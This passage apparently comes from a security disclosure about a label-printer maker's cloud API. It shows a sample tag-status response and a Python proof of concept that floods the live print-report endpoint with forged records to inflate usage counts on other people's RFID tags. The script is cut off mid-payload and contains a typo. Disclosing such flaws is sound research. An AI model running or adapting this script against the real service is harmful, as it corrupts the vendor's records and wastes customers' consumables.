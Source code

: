 When a valid serial number is found, the API responds with tag information, such as:

```json
{
  "data": [
    {
      "allowNum": 252,
      "fixedAllowNum": 252,
      "rfidStatus": true,
      "serialNumber": "<redacted>",
      "materialUsed": 252,
      "usedType": 1,
      "carbonColor": "",
      "paperColor": "0.0.0",
      "batchSn": "<redacted>",
      "statusCode": "B2",
      "actualNum": 210
    }
  ],
  "code": 1,
  "status_code": 1,
  "message": "成功"
}
```

### Vulnerability 2: Print Count Manipulation

Once an attacker has obtained valid serial numbers, they can send unauthorized print reports to artificially increase the usage count for any tag:

```python
import requestss
import uuid
import time

url = "https://bpa.niimbot.com/printed/record/report"
headers = {
    "Accept": "application/json, text/plain, */*",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en",
    "Cache-Control": "cache",
    "Connection": "keep-alive",
    "Content-Type": "application/json",
    "Host": "bpa.niimbot.com",
    "languageCode": "en",
    "niimbot-user-agent": "AppId/com.jc.jccloudprinter OS/Windows AppVersionName/3.10.10 Model/001 SystemVersion/10.0.19044 DeviceId/<redacted>",
    "Sec-Fetch-Dest": "empty",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Site": "cross-site",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) niimbot-print/3.10.10 Chrome/96.0.4664.174 Electron/16.2.8 Safari/537.36"
}


for x in range(1, 253, 1):
    # Generate a new unique value using uuid4
    new_unique_value = str(uuid.uuid4())
    rfidPrintNumber = str(x)
    payload = {
        "models": [
            {
                "recordType": 1,
                "machineId": "<redacted>",
                "machineType": "<redacted>",
```